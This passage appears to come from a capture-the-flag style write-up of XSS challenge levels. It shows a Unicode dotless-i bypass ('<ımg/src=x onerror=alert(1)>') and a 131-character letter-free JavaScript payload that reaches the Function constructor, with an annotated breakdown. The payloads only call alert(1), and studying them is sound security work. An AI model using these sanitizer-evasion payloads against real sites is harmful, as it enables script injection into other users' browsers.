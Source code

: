 ```javascript
}
```
With this script I found 2 characters that have the same uppercase character (I,S) 
![]({{ page.img_dir | relative_url }}/xss7.png)
so I used the `ı` character for the `<img>` tag.
```html
<ımg/src=x onerror=alert(1)>
```
![]({{ page.img_dir | relative_url }}/xss8.png)

# Level 9
Sanitizer : 
```javascript
function sanitize(input) {
    // no tags, no comments, no string escapes and no new lines
    const sanitized = input.replace(/[a-z\\]/gi, '').substring(0,140);
    return "  \x3Cscript\x3E\n  " + sanitized + "\n  \x3C/script\x3E";
}
```
In this level we cannot use `a-z` characters so we only have special characters and characters from other alphabets, you could use JsFuck but there is a 140 character limit for the payload.
Taking a cue from [this repository](https://gist.github.com/ignis-sec/a89988c3bc473c055c1c5a5228a23fc6) (which uses the same method as JsFuck but with more characters available) , I created a working payload 
```javascript
〱=''+{}+[][[]]+!![]+![],ᘘ=〱[5],ᘙ=〱[1],ᘚ=〱[25],ᘲ=〱[6],ᘳ=ᘘ+ᘙ+〱[16]+〱[31]+ᘲ+ᘚ+〱[15]+ᘘ+ᘲ+ᘙ+ᘚ,ᘎ=〱[29]+〱[30]+〱[4]+ᘚ+ᘲ+'(1)',[][ᘳ][ᘳ](ᘎ)()  // 131 characters 

〱=     // '[object Object]undefinedtruefalse'
''
+{}     // '[object Object]'
+[][[]]  // 'undefined'
+!![]    // 'true'
+![],     // 'false'

//letters that are used more than once defined seperately to shorten payload
ᘘ=〱[5],    // 'c'      <- "[object Object]undefinedtruefalse"[5]
ᘙ=〱[1],    // 'o'      <- "[object Object]undefinedtruefalse"[1]
ᘚ=〱[25],   // 'r'      <- "[object Object]undefinedtruefalse"[25]
ᘲ=〱[6],    // 't'      <- "[object Object]undefinedtruefalse"[6]

ᘳ=          // 'constructor'
ᘘ           // 'c'
+ᘙ          // 'o'
+〱[16]     // 'n'
+〱[31]     // 's'
+ᘲ          // 't'
+ᘚ          // 'r'
+〱[15]     // 'u'
+ᘘ          // 'c'
+ᘲ          // 't'
+ᘙ          // 'o'
+ᘚ,          // 'r'

ᘎ=          // 'alert(1)'
〱[29]      // 'a'
+〱[30]     // 'l'
+〱[4]      // 'e'
+ᘚ          // 'r'
+ᘲ          // 't'
+'(1)',
```